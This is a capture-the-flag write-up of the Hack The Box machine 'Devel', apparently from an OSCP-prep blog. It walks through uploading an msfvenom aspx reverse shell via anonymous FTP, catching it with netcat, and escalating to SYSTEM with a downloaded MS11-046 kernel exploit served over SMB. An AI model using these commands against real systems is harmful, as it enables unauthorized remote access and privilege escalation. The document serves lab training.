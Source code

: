 ```yaml
---
title: "Hack The Box - Devel"
date: 2020-01-09
tags: [oscp, htb, windows]
collection: oscp-prep
published: true
layout: single
classes: wide
toc: true
toc_label: Table of Contents
headline: "FTP abuse to kernel exploit"
picture: /assets/htb-devel/machine_info.png
author_profile: true
---
```


![](/assets/htb-devel/machine_info.png)

## Enumeration

Our Nmap scans show only 2 ports open, running FTP and HTTP. Both are backed by IIS 7.5, telling us that the system is running Windows 7 or Server 2008 R2.

```
Nmap scan report for 10.10.10.5
Host is up, received user-set (0.059s latency).
Scanned at 2020-01-09 13:18:34 EST for 202s
Not shown: 65533 filtered ports
Reason: 65533 no-responses
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
```

Gobuster and Nikto show nothing beyond an `/aspnet_client` subsirectory on the HTTP side.

---

## Initial Shell

### Probing FTP

Since web enumeration found nothing of interest, we have to assume the way forward is going to involve FTP in some way. Let's probe FTP and see what we can do.

Initial enumeration of FTP should always include an attempt to login as an `anonymous` user. In this case, we can in fact login as `anonymous`.

![](/assets/htb-devel/ftp_anon_login.png)

Now that we're in the FTP server, where are we? A simple `ls` shows that we're in the root of the web site, as we can see the default IIS page, and the `/aspnet_client` subdirectory.

![](/assets/htb-devel/ftp_webroot.png)

Now we need to test if we can place a test file in the directory as `anonymous`. Since this is the webroot, if we're able to place a file here and pull it up via the web browser, that means we have a way to possibly get RCE.

![](/assets/htb-devel/ftp_put_test.png)

![](/assets/htb-devel/web_test_file.png)

So we can place a file, and retreive it via the web. Since this is IIS, with the `/aspnet_client` present, it means we can probably place a malicious `aspx` page, and get a shell back.

### Create payload and upload via FTP

We can use `msfvenom` to create a payload, and output it to the `aspx` format. The command `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=7500 -f aspx -o shell.aspx`

![](/assets/htb-devel/msfvenom_create.png)

Now we just need to upload it to the FTP server.

![](/assets/htb-devel/ftp_put_shell.png)

### Open listener and trigger exploit

Before we can trigger the exploit, we need to open a listener to catch the shell first. We can do this with `nc -lvnp 7500`.

Once that's setup, all we need to do it navigate a web browser to `http://10.10.10.5/shell.aspx`. We should now have a shell waiting for us in the listener.

![](/assets/htb-devel/initial_shell.png)

---

## Privlege Escalation

### Getting our bearings

Now that we're on the system, we can look around and see what we're dealing with.

The `systeminfo` command shows that we were correct with our guess of Windows 7 as the OS. Also, note that there are no installed Hotfixes on the machine either.

```
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          13/1/2020, 4:16:05 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 725 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.528 MB
Virtual Memory: In Use:    519 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
```

A `whoami` command shows that we're currently running as an IIS web service.

![](/assets/htb-devel/whoami.png)

A `net user` command shows that the accounts on the system are `Administrator` and `babis`. The `user.txt` flag is probably on the desktop for `babis`, with the `root.txt` flag on the desktop for `Administrator`.

![](/assets/htb-devel/net_user.png)

We can also see that we can't navigate to the `babis` user directory.

![](/assets/htb-devel/babis_denied.png)

### MS11-046

Since there are no hotfixes installed, we have our choice of kernal exploits for local exploit. MOst exploits found online will trigger, but they are not remote shell friendly. This means that even if I run them, they will open a new instance of `cmd.exe` on the PC, not just escalate my current privleges in the current shell.

[This repository for a MS11-046 exploit](https://github.com/abatchy17/WindowsExploits/tree/master/MS11-046) tells us in the source code that it is in fact *remote-shell friendly*.

```c
// spawn shell (with elevated privileges)
    printf("         [*] Spawning shell\n");
    // spawn SYSTEM shell within the current shell (remote shell friendly)
    system ("c:\\windows\\system32\\cmd.exe /K cd c:\\windows\\system32");
```

There is a pre-compiled EXE available, which makes this as simple as copying to it the target with an SMB share, and running it.

```shell
wget https://github.com/abatchy17/WindowsExploits/raw/master/MS11-046/MS11-046.exe

# Start an SMB server via Impacket's smbserver.py in a new terminal
smbserver.py kali .

# From the remote shell
copy \\10.10.14.16\kali\MS11-046.exe
```

Now all that's left is to run the exploit locally on the target.

![](/assets/htb-devel/privesc_whoami.png)

### Loot!

Once we're `SYSTEM`, grabbing flags is trivial.

![](/assets/htb-devel/user_proof.png)

![](/assets/htb-devel/root_proof.png)





